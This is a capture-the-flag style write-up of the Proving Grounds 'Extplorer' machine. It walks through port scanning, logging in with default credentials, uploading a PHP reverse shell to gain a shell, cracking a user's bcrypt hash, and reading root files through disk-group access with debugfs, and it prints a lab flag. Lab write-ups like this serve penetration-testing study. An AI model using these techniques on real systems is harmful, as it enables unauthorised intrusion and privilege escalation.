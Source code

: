 ```yaml
---
date: '2024-10-24'
before : '2024-10-17'
after : '2024-10-24'
title: 'Proving Grounds : Extplorer'
categories: [, 'proving_grounds', 'pentest', 'ENG']
summary: 'Solving Extplorer machine from Proving Grounds'
thumbnail: '../contentImages/extplorer/5.png'
---
```



Starting with nmap scan
```
┌──(hlee㉿kali)-[~]
└─$ sudo nmap 192.168.155.16 -p- -T4
[sudo] password for hlee: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-24 11:31 EDT
Nmap scan report for 192.168.155.16
Host is up (0.027s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 96.92 seconds
```
As I visited port 80
![image](../contentImages/extplorer/3.png)
This is a wordpress application. Let's continue with enumeration

## 2. Initial Foothold

I initially started with nmap wordpress scan.
```
┌──(hlee㉿kali)-[~]
└─$ sudo nmap 192.168.155.16 -p80 -T4 --script=http-wordpress-*
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-24 11:38 EDT
Nmap scan report for 192.168.155.16
Host is up (0.025s latency).

PORT   STATE SERVICE
80/tcp open  http
| http-wordpress-enum: 
| Search limited to top 100 themes/plugins
|   plugins
|_    akismet 5.1

Nmap done: 1 IP address (1 host up) scanned in 42.86 seconds
                                                                
```
I found akismet 5.1 plugin, but nothing useful I guess.

If I try to set the config like this:
![image](../contentImages/extplorer/4.png)

Error pops up because server doesnt have sql service running. I opened port 8000 and tried it once more with MY_IP:8000
```
┌──(hlee㉿kali)-[~]
└─$ nc -lvnp 8000
listening on [any] 8000 ...
connect to [192.168.45.192] from (UNKNOWN) [192.168.155.16] 41808
```
So it actually tries to connect us. But naturally it isn't a shell. Dead end here.

I found with ffuf an interesting endpoint, /filemanager. As I visited:
![image](../contentImages/extplorer/5.png)
Our machine name was kind of a straight hint I guess. There were several exploits for extplorer. Since we don't have a version name, we need to brute-force for a little bit.

We could log in with default credential admin:admin.
![image](../contentImages/extplorer/6.png)

We can see every files under /wp-admin and also can upload a file. If we can upload a php file and also **access** it, we can simply upload a revshell! I uploaded revshell.php which I created with Reverse shell generator and visited

> 192.168.155.16/wp-admin/revshell.php

Then I got a shell!
```
┌──(hlee㉿kali)-[~]
└─$ nc -lvnp 80  
listening on [any] 80 ...
connect to [192.168.45.192] from (UNKNOWN) [192.168.155.16] 45140
Linux dora 5.4.0-146-generic #163-Ubuntu SMP Fri Mar 17 18:26:02 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
 16:40:26 up  1:12,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ 
```

But I still can't get local.txt.

## 3. PrivEsc to dora

![image](../contentImages/extplorer/7.png)
We found a hash for dora user at our extplorer application, under /filemanager/xxxx/...(find it yourself!). Let's try to crack it!

```
┌──(.venv)─(hlee㉿kali)-[~/oscp/offsec/extplorer]
└─$ john hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 256 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
doraemon         (?)     
1g 0:00:00:02 DONE (2024-10-24 13:01) 0.4975g/s 752.2p/s 752.2c/s 752.2C/s gonzalez..something
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

```
doaremon is actually my favorite character :)

Then I did su dora.

## 4. PrivEsc to root

I found that dora is:
```
uid=1000(dora) gid=1000(dora) groups=1000(dora),6(disk)
```
disk group is not a normal one. Let's google about it.

> https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe

![image](../contentImages/extplorer/8.png)
It's **almost** root privilege, it says! Let's follow the steps and gain root privilege
```
dora@dora:/$ df -h
df -h
Filesystem                         Size  Used Avail Use% Mounted on
/dev/mapper/ubuntu--vg-ubuntu--lv  9.8G  5.1G  4.2G  55% /
...
```
I assumed that the first Filesystem is our mounted "/".
```
dora@dora:/$ debugfs /dev/mapper/ubuntu--vg-ubuntu--lv
debugfs:  cd /root
debugfs:  ls
ls
 131076  (12) .    2  (12) ..    265478  (12) .ssh    265574  (12) snap   
 131077  (16) .bashrc    131078  (16) .profile    142303  (24) .bash_history   
 265709  (16) .cache    265469  (36) .local    132363  (20) proof.txt   
 132531  (3908) flag4.txt   
debugfs:  cat proof.txt
cat proof.txt
5afd64bd1c723ea7f400751b13d9ad05
```
Done!

Lesson learned: check for group privilege! (bad habit: only checking for sudo -l, pspy and suid permission)

---
## Source

- Proving Grounds
- Me!